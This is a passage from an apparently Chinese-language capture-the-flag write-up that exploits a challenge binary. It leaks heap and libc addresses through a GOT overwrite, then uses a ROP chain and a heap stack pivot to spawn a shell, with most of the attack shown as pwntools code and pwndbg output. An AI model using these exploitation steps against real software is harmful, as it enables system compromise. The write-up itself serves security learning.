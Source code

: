 ```python
heap_base = heap_leak - 0x1270-0x40
print "heap_leak =", hex(heap_leak)
print "heap_base =", hex(heap_base)
```
如下，当输出item12的信息时会将0x00000000020742b0作为price输出：
```
pwndbg> x/16gx 0x6020a0
0x6020a0 <items>:       0x00000000020742b0 <--leak     0x00000000020743a0
0x6020b0 <items+16>:    0x00000000020743f0      0x0000000002074440
0x6020c0 <items+32>:    0x0000000002074490      0x00000000020744e0
0x6020d0 <items+48>:    0x0000000002074530      0x0000000002074580
0x6020e0 <items+64>:    0x00000000020745d0      0x0000000002074620
0x6020f0 <items+80>:    0x0000000002074670      0x00000000020746c0
0x602100 <items+96>:    0x00000000006020a0 <--item12     0x0000000002074790
0x602110 <items+112>:   0x0000000000602100 <--     0x0000000002074350
```
泄露libc，操作如下，主要是通过edit修改item14的price为scanf.got（此时堆在bss段，覆盖了其他item的地址），再利用List函数将scanf.got指向的地址作为item12的price输出
```python
# libc leak
Edit(14, "X", elf.got.__isoc99_scanf) # mod

List() 
for i in range(13):
  s.recvuntil("Price: ")
scanf_addr  = int(s.recvuntil("\n"))
libc_base   = scanf_addr - libc.symbols['__isoc99_scanf']
system_addr = libc_base + libc.symbols['system']
binsh_addr  = libc_base + next(libc.search('/bin/sh'))
print "scanf_addr =", hex(scanf_addr)
print "libc_base  =", hex(libc_base)
```
```
pwndbg> x/16gx 0x6020a0
0x6020a0 <items>:       0x00000000020742b0      0x00000000020743a0
0x6020b0 <items+16>:    0x00000000020743f0      0x0000000002074440
0x6020c0 <items+32>:    0x0000000002074490      0x00000000020744e0
0x6020d0 <items+48>:    0x0000000002074530      0x0000000002074580
0x6020e0 <items+64>:    0x00000000020745d0      0x0000000002074620
0x6020f0 <items+80>:    0x0000000002074670      0x00000000020746c0
0x602100 <items+96>:    0x0000000000602050 <--scanf.got     0x0000000002074790
0x602110 <items+112>:   0x0000000000602100 <--item14     0x0000000002074350
```
```
pwndbg> x/16gx 0x602050
0x602050 <__isoc99_scanf@got.plt>:      0x00007f7f6bd30230 <--leak     0x00000000004006d6
0x602060:       0x0000000000000000      0x0000000000000000
0x602070 <N>:   0x0000000000000014      0x0000000000000000
0x602080 <stdout@@GLIBC_2.2.5>: 0x00007f7f6beb66a0      0x0000000000000000
0x602090 <stdin@@GLIBC_2.2.5>:  0x00007f7f6beb5980      0x0000000f00000000
0x6020a0 <items>:       0x00000000020742b0      0x00000000020743a0
0x6020b0 <items+16>:    0x00000000020743f0      0x0000000002074440
0x6020c0 <items+32>:    0x0000000002074490      0x00000000020744e0
```
泄露了heapaddress、libcaddress后，可得到system、/bin/sh地址，最后利用栈溢出覆盖返回地址可拿到shell，但是发现ROP溢出至少需要`0x38+0x18=0x50>65`，溢出长度不足，所以这就是泄露heap地址的作用，考虑将stack迁移到堆上，迁移到堆上需要溢出`0x38<65`字节,满足溢出条件。操作如下：
```python
pop_rdi_ret = 0x400f63 # pop rdi; ret; 
leave_ret   = 0x400e11 # leave; ret;

Add(p64(pop_rdi_ret)+p64(binsh_addr)+p64(system_addr), 0)
gdb.attach(s)
# Stack pivot to heap
Sell(3, "b"*0x18+p64(3)+p64(0)*2+p64(heap_base + 0x17e0 - 8) + p64(leave_ret))

```